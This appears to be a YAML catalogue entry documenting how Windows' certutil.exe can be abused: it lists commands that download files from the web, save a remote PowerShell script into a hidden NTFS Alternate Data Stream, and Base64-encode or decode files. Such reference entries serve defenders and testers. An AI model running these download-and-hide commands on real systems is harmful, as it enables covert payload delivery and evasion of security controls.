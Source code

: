 ```yaml
---
Name: Certutil.exe
Description: Download, Add ADS, Decode, Encode
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
    Description: Download and save 7zip to disk in the current folder.
  - Command: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
    Description: Download and save a PS1 file to an Alternate Data Stream (ADS).
  - Command: |
          certutil -encode inputFileName encodedOutputFileName
          certutil -decode encodedInputFileName decodedOutputFileName
    Description: Commands to encode and decode a file using Base64.
Full Path:
  - c:\windows\system32\certutil.exe
  - c:\windows\sysWOW64\certutil.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/Moriarty_Meng/status/984380793383370752
  - https://twitter.com/mattifestation/status/620107926288515072
Notes: Thanks to Matt Graeber - @mattifestation, Moriarty - @Moriarty2016
---
```

